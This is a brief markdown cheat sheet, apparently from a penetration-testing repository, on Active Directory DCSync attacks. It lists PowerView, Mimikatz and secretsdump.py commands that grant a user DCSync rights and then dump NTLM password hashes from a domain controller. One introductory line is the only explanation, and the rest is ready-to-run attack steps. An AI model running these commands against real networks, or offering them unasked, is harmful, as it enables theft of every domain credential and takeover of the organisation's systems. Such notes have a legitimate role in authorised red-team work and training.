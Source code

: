 ### **INTRODUCTION**
Granting DCSync privileges allows a user to replicate domain data, which includes sensitive information such as password hashes. 

### **STEPS TO GRANT DCSYNC PRIVILEGES**

1. Grant DCSync Privileges using PowerView:   
	`Add-DomainObjectAcl -TargetIdentity "DC=SUB,DC=DOMAIN,DC=LOCAL" -PrincipalIdentity bfarmer -Rights DCSync`

2. Perform a DCSync Attack with Mimikatz:   
	`Invoke-Mimikatz -Command '"lsadump::dcsync /user:[DOMAINNAME]\[ANYDOMAINUSER]"'`

3. DCSync Using NTLM Authentication:   
	`secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP_ADRESS] -just-dc-ntlm`

4. Run secretsdump.py with Kerberos Authentication:   
	`secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm`